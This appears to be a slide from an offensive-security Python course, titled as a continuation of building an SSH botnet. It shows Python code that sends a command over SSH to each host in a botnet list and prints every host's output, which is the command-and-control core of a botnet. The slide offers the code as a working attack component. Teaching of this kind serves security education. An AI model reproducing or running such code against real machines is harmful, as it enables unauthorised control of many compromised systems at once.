

# BUILDING AN SSH BOTNET WITH PYTHON CONTD..

except Exception as e:
                print(e)
                print('[-] Error Connecting')

def send_command(self, cmd):
        stdin, stdout, stderr = self.session.exec_command(cmd)
        return stdout.read().decode()
def botnetCommand(command):
    for client in botNet:
        output = client.send_command(command)
        print('[*] Output from ' + client.host)
        print('[*] ' + output)